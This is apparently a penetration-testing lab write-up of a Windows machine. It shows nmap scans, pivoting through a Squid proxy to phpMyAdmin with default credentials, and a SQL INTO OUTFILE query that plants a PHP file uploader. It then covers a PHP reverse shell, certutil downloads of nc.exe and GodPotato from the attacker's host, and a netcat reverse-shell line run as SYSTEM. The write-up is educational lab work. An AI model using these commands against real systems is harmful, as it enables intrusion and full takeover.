









Writeup by wook413

[TOC]

# Enumeration

## Nmap

Following my standard Nmap methodology, I conducted three distinct Nmap scans. First, I performed a full comprehensive TCP port scan to identify all active services. This was followed by a targeted service and script scan on the discovered ports to gather more details. Finally, I ran a UDP scan to ensure no common UDP-based services were overlooked.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:22 UTC
Nmap scan report for 192.168.108.189
Host is up (0.047s latency).
Not shown: 65529 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3128/tcp  open  squid-http
49666/tcp open  unknown
49667/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 43.87 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 135,139,445,3128,49666,49667
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:24 UTC
Nmap scan report for 192.168.108.189
Host is up (0.055s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-18T19:25:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 95.45 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                     
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:26 UTC
Nmap scan report for 192.168.108.189
Host is up (0.055s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.88 seconds
```

# Initial Access

## SMB 139 445

Whenever SMB services are identified as open, I like to run `smb-enum-shares` , `smb-enum-users` and `vuln` Nmap scripts before I start any manual enumeration. I didn’t find anything useful this time.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:28 UTC
Nmap scan report for 192.168.108.189
Host is up (0.056s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 15.01 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=vuln -p 139,445                          
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:28 UTC
Nmap scan report for 192.168.108.189
Host is up (0.054s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 34.13 seconds
```

SMB appears to block Null Authentication.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP             
session setup failed: NT_STATUS_ACCESS_DENIED
```

## HTTP 3128

Nmap identified an interesting service on port 3128 as `Squid http proxy 4.14` . Upon researching Squid on **HackTricks**, I found that it could be used as a proxy pivot point to enumerate internal services that are not directly accessible from the outside.



I added the target’s proxy service `http 192.168.108.189 3128` to my `/etc/proxychains4.conf` file.



Using `proxychains nmap` , I performed a scan on `localhost` from the perspective of the target machine. This scan discovered additional internal ports, specifically port 8080.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains nmap -sT -n -p- localhost 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-18 19:51 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00056s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
1234/tcp  open  hotline
7070/tcp  open  realserver
8080/tcp  open  http-proxy
34853/tcp open  unknown
46767/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

To confirm these findings, I used `spose` scanner. This tool verified that ports 3306 and 8080 were indeed open and accessible via the proxy.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone <https://github.com/aancw/spose.git>                                                                               
Cloning into 'spose'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 34 (delta 11), reused 17 (delta 6), pack-reused 11 (from 1)
Receiving objects: 100% (34/34), 7.89 KiB | 2.63 MiB/s, done.
Resolving deltas: 100% (11/11), done.
```

```bash
┌──(kali㉿kali)-[~/Desktop/spose]
└─$ python3 spose.py --proxy <http://$IP:3128> --target $IP
Scanning default common ports
Using proxy address <http://192.168.108.189:3128>
192.168.108.189:3306 seems OPEN
192.168.108.189:8080 seems OPEN
```

To interact with the web service on port 8080, I configured FoxyProxy in my browser to use the Squid proxy as a pivot.



Navigating to `http://192.168.108.189:8080` revealed a Wampserver default page.



I accessed the PhpMyAdmin login page and successfully logged in using the default credentials: username:`root` with no password.





Within the phpMyAdmin SQL tab, I executed the following query to create a PHP file uploader named `uploader.php` in the web root directory (`C:/wamp/www/` ).

```sql
SELECT 
"<?php echo \\'<form action=\\"\\" method=\\"post\\" enctype=\\"multipart/form-data\\" name=\\"uploader\\" id=\\"uploader\\">\\';echo \\'<input type=\\"file\\" name=\\"file\\" size=\\"50\\"><input name=\\"_upl\\" type=\\"submit\\" id=\\"_upl\\" value=\\"Upload\\"></form>\\'; if( $_POST[\\'_upl\\'] == \\"Upload\\" ) { if(@copy($_FILES[\\'file\\'][\\'tmp_name\\'], $_FILES[\\'file\\'][\\'name\\'])) { echo \\'<b>Upload Done.<b><br><br>\\'; }else { echo \\'<b>Upload Failed.</b><br><br>\\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```



Using the newly created uploader, I uploaded a malicious PHP payload (`Ivan-Sincek.php` ) configured to connect back to my Kali machine.





# Shell as `local service`

I successfully established a reverse shell as the `nt authority\\local service` user.

```sql
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.108.189] 50078
SOCKET: Shell has connected! PID: 2248
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\wamp\\www>whoami
nt authority\\local service
```

I can’t access Administrator directory as local service user.

```sql
C:\\Users>cd Administrator
Access is denied.
```

# Privilege Escalation

I checked the current user’s privileges using `whoami /priv` . The output showed that `SeImpersonatePrivilege` was enabled. This privilege is a known vector for elevation to `SYSTEM` using “Potato” exploits.

```sql
C:\\Users>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

I used `certutil.exe` binary to transfer `nc.exe` and `gp.exe` to the target’s `C:\\Users\\Public` directory.

```cmd
C:\\Users\\Public>certutil -urlcache -split -f <http://192.168.45.236/nc.exe>
****  Online  ****
  0000  ...
  aab0
CertUtil: -URLCache command completed successfully.
```

```cmd
C:\\Users\\Public>certutil -urlcache -split -f <http://192.168.45.236/gp.exe>
****  Online  ****
  0000  ...
  e000
CertUtil: -URLCache command completed successfully.
```

I ran GodPotato to execute a reverse shell command with elevated privileges.

```cmd
C:\\Users\\Public>gp.exe -cmd ".\\nc.exe 192.168.45.236 80 -e C:\\Windows\\System32\\cmd.exe"
[*] CombaseModule: 0x140714478272512
[*] DispatchTable: 0x140714480585920
[*] UseProtseqFunction: 0x140714479963184
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\\\.\\pipe\\54766e0a-4986-4014-a634-87de4ed5b5de\\pipe\\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b002-0334-ffff-616c-6479ec6fcff5
[*] DCOM obj OXID: 0xe4c07ca078d927e0
[*] DCOM obj OID: 0x586b695a9dfe7f0f
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 876 Token:0x812  User: NT AUTHORITY\\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\SYSTEM
[*] process start with pid 708
```

# Shell as `system`

The exploit successfully triggered, granting me a shell as `SYSTEM` . I was then able to navigate to the Administrator’s desktop and retrieve the `proof.txt` flag.

```cmd
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80    
listening on [any] 80 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.108.189] 50086
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Users\\Public>whoami
whoami
nt authority\\system
```

Found `proof.txt`

```cmd
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
e14...
```